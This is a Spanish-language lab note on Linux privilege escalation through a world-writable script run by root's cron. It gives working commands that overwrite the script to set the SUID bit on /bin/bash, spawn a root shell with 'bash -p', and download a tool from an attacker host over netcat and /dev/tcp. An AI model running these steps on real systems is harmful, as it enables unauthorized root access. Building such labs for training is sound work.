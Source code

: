 # 🔬 Montando un Mini Laboratorio de Escalada de Privilegios

## 🛠️ Configuración Inicial (Como Root)

> [!danger] Advertencia de Seguridad
> Este laboratorio está diseñado solo para fines educativos. Nunca implemente estas configuraciones en sistemas de producción.

### 1. Preparando el Script Vulnerable

```bash
# Creamos un script en /tmp
echo '#!/bin/bash
echo "Hola mundo" >> /tmp/archivo.txt' > /tmp/script.sh

# Configuramos permisos (ejecutable y escribible por otros)
chmod +x /tmp/script.sh
chmod o+w /tmp/script.sh
```

> [!info] Explicación de Permisos
> - `+x` → Hace el script ejecutable
> - `o+w` → Permite a cualquier usuario modificar el contenido del script

### 2. Configurando el Cron Job

```bash
crontab -e
```

Añadimos la siguiente línea al archivo crontab:

```bash
* * * * * /bin/bash /tmp/script.sh
```

> [!note] Desglose de Crontab
> | Campo | Valor | Significado |
> |-------|-------|-------------|
> | Minuto | * | Cada minuto |
> | Hora | * | Cada hora |
> | Día del mes | * | Cada día |
> | Mes | * | Cada mes |
> | Día de la semana | * | Cada día de la semana |

## 👤 Explotación (Como Usuario No Privilegiado)

### 1. Reconocimiento Inicial

Verificamos el contenido del script:

```bash
cat /tmp/script.sh
```

```bash
#!/bin/bash
echo "Hola mundo" >> /tmp/archivo.txt
```

### 2. Monitoreo de Procesos

#### Opción A: Script Personalizado de Monitoreo

Creamos un monitor de procesos simple:

```bash
cat > procmon.sh << 'EOF'
#!/bin/bash
old_procs=$(ps -eo user,command)

while true; do
    new_procs=$(ps -eo user,command)
    diff <(echo "$old_procs") <(echo "$new_procs") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
    old_procs=$new_procs
    sleep 0.1
done
EOF

chmod +x procmon.sh
```

> [!tip] Funcionamiento
> Este script compara continuamente la lista actual de procesos con la anterior, mostrando solo las diferencias, lo que nos permite detectar cuándo se ejecuta nuestro script objetivo.

#### Opción B: Utilizando pspy

[[pspy]] es una herramienta especializada para monitorear procesos sin privilegios de root:

```bash
./pspy64 -pf -i 1000
```

> [!info] Parámetros de pspy
> - `-pf`: Muestra información completa de los procesos
> - `-i 1000`: Intervalo de escaneo de 1000ms (1 segundo)

### 3. Modificación del Script para Escalada de Privilegios

Una vez confirmado que el script se ejecuta como root, lo modificamos:

```bash
cat > /tmp/script.sh << 'EOF'
#!/bin/bash
echo "Hola mundo" >> /tmp/archivo.txt

# Añadir bit SUID a /bin/bash
chmod u+s /bin/bash
EOF
```

> [!warning] Impacto de Seguridad
> El comando `chmod u+s /bin/bash` establece el bit SUID en bash, permitiendo que cualquier usuario lo ejecute con los privilegios del propietario (root).

### 4. Verificando la Explotación

Esperamos un minuto para que el cron ejecute nuestro script modificado, luego:

```bash
ls -la /bin/bash
```

Si vemos algo como `-rwsr-xr-x`, el bit SUID está establecido.

### 5. Obteniendo Shell como Root

```bash
/bin/bash -p
```

> [!success] Resultado Esperado
> El parámetro `-p` mantiene los privilegios efectivos del SUID, resultando en una shell de root.

## 📡 Transferencia de Herramientas

Si necesitas transferir herramientas como pspy a la máquina objetivo, puedes usar [[netcat]]:

### En la máquina atacante:

```bash
nc -nlvp 443 < pspy64
```

### En la máquina víctima:

```bash
cat </dev/tcp/ip_atacante/443 > pspy64
chmod +x pspy64
```

Para más detalles sobre esta técnica, consulta [[Netcat - Transferencia de archivos por TCP]].

---
[[Escalada de Privilegios]]

#hacking #privilege_escalation #cron #suid #linux #lab_setup #red_team